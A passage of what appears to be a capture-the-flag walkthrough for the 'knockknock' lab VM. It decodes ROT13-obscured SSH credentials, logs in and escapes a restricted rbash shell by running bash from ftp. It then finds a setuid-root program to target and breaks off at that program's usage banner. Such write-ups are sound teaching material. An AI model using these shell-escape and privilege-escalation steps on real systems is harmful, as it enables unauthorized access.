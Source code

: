 The last three lines reveal potential login credentials. Now that port 22 was open, I assumed I could use these to login to the server via SSH. Of course, it wasn't quite that easy. Trying the username abfnW with password sax2Cw9Oc failed miserably. It occured to me that perhaps the credentials were encrypted. My first assumption was that a substitution cipher of some sort must have been used, so I tried some common ones. The winner was ROT13. Running abfnW through [ROT13.com](http://www.rot13.com) returned nosaJ, which is Jason backwards! I ran the password through ROT13 as well and got fnk2Pj9Bj. Assuming that the username was jason, it made sense that the password must also be reversed to jB9jP2knf 

```
root@kali ~/knock
# ssh jason@172.16.171.134
The authenticity of host '172.16.171.134 (172.16.171.134)' can't be established.
ECDSA key fingerprint is af:79:f1:28:f4:7f:5a:d7:c4:31:9b:d9:b1:cc:05:f4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.171.134' (ECDSA) to the list of known hosts.
jason@172.16.171.134's password: 
Linux knockknock 3.2.0-4-486 #1 Debian 3.2.60-1+deb7u3 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Mon Oct  6 12:33:37 2014 from 192.168.56.202
jason@knockknock:~$
```

Hooray a shell! Well sort of. As it turns out, the default shell for jason is rbash, so I was restricted with what I could do. To get around this, I launched /bin/bash from ftp and successfully broke out of rbash:

```
son@knockknock:~$ cd /
-rbash: cd: restricted
jason@knockknock:~$ ftp
ftp> !/bin/bash
jason@knockknock:~$ cd /
jason@knockknock:/$ pwd
/
jason@knockknock:/$ 
```

### Racing for a root shell

In jason's home directory was a program called tfc that was setuid root. When run without any arguments, it printed a banner and usage message: 

```
jason@knockknock:~$ ./tfc 
_______________________________  
\__    ___/\_   _____/\_   ___ \ 
  |    |    |    __)  /    \  \/ 
  |    |    |     \   \     \____
  |____|    \___  /    \______  /
                \/            \/ 

    Tiny File Crypter - 1.0

Usage: ./tfc <filein.tfc> <fileout.tfc>
jason@knockknock:~$ 
```
